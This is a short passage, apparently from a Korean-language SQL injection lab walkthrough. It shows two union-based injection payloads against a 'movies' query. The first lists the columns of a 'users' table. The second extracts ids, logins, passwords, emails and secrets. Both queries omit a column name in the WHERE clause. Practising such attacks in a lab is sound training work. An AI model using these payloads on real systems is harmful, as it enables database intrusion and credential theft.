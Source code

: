 select * from movies where like '%man' and 1=2 union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name='users' -- %' 

7.  users 테이블에 id, login, password, email, secret 정보를 조회

select * from movies where like '%man' and 1=2 union select 1,id,login,password,concat(email, ' : ', secret),6,7 from users -- %' 

